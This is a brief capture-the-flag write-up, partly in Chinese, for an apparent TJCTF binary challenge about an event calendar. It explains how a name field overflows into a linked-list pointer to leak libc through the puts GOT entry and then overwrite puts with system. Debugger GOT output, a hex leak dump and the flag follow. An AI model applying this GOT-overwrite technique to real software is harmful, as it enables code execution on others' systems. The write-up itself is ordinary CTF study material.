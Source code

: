 # 思路
    char name[128];
    struct event *next;
名字长度256，有溢出，把next改为puts_got,泄漏libc，改puts为system
# debug
[0x404000] free@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
[0x404008] puts@GLIBC_2.2.5 -> 0x7fafe759cbe0 (puts) ◂— endbr64
[0x404010] __stack_chk_fail@GLIBC_2.4 -> 0x401050 ◂— endbr64
[0x404018] setbuf@GLIBC_2.2.5 -> 0x7fafe75a4750 (setbuf) ◂— endbr64
[0x404020] printf@GLIBC_2.2.5 -> 0x7fafe7575100 (printf) ◂— endbr64
[0x404028] fgets@GLIBC_2.2.5 -> 0x7fafe759ab30 (fgets) ◂— endbr64
[0x404030] malloc@GLIBC_2.2.5 -> 0x7fafe75c2650 (malloc) ◂— endbr64
[0x404038] atoi@GLIBC_2.2.5 -> 0x7fafe755b660 (atoi) ◂— endbr64

[DEBUG] Received 0x47 bytes:
    00000000  33 38 38 31  34 32 31 37  39 32 3a 30  30 20 2d 20  │3881│4217│92:0│0 - │
    00000010  af 7f 0a 0a  0a 41 64 64  20 61 6e 20  65 76 65 6e  │····│·Add│ an │even│
    00000020  74 20 74 6f  20 79 6f 75  72 20 63 61  6c 65 6e 64  │t to│ you│r ca│lend│
    00000030  61 72 3a 0a  45 76 65 6e  74 20 74 69  6d 65 3f 20  │ar:·│Even│t ti│me? │
    00000040  28 31 2d 32  34 29 20                               │(1-2│4) │
    00000047
3881421792:00 - \xaf\x7f

# getshell
tjctf{i_h0pe_my_tre3s_ar3nt_b4d_too}
![](https://r2.20161023.xyz/pic/20250608025242617.png)